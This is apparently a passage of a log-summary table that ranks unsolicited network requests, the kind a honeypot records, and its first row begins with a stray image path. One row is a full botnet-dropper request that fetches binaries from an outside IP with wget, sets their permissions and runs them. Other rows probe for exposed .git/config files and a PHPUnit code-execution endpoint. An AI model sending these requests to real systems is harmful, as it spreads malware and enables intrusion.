|   5 |                    17 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                                                             |
|   6 |                    16 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                                                                                 |
|   7 |                    12 | \x05\x01\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|   8 |                    12 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|   9 |                    11 | \x04\x01\x01\xBB\x00\x00\x00\x01proxychecker\x00api.ip.pn\x00                                                                                                                                                                                                                                                                                                                                                                                                 |
|  10 |                    11 | CONNECT api.ip.pn:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  11 |                    10 | GET /users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  12 |                     9 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  13 |                     9 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  14 |                     9 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                                                              |
|  15 |                     8 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|  16 |                     8 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                         |